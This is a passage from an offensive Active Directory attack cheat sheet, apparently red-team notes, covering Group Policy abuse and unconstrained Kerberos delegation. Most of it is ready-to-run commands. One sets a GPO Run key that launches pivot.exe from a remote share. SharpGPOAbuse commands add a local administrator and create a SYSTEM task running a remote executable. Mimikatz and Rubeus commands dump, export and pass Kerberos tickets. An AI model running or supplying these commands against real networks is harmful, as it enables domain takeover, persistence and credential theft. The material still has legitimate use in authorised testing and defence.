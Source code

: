 ````
Set-GPPrefRegistryValue -Name "Testing GPO SMB security" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\<HOSTNAME>\<SHARE>\pivot.exe" -Type ExpandString
```

#### Add local admin abuse
- https://github.com/FSecureLABS/SharpGPOAbuse
```
./ShapGPOAbuse.exe --AddLocalAdmin --GPOName <GPONAME> --UserAccount <USERNAME>
gpupdate /force #On the target machine if you got normal access already
net localgroup administrators
```

#### Create scheduled task
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c <SHARE>\<EXECUTABLE FILE>" --GPOName "<GPO>"
```

### Build in groups
- https://cube0x0.github.io/Pocing-Beyond-DA/

## Delegation
- In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to;
- In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them.

### Unconstrained Delegation
- To execute attack owning the server with unconstrained delegation is required!

#### Discover domain computers which have unconstrained delegation
- Domain Controllers always show up, ignore them
- Use the ```-domain``` flag to check for other domain
```
Get-DomainComputer -UnConstrained
Get-DomainComputer -UnConstrained | select samaccountname
```

```
.\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

#### Check if any DA tokens are available on the unconstrained machine
- Wait for a domain admin to login while checking for tokens
```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

```
.\Rubeus.exe triage
```

#### Export the TGT ticket
```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

```
.\Rubeus.exe dump /luid:<LUID> /service:<SERVICE>
```

#### Reuse the TGT ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <KIRBI FILE>"'
```
````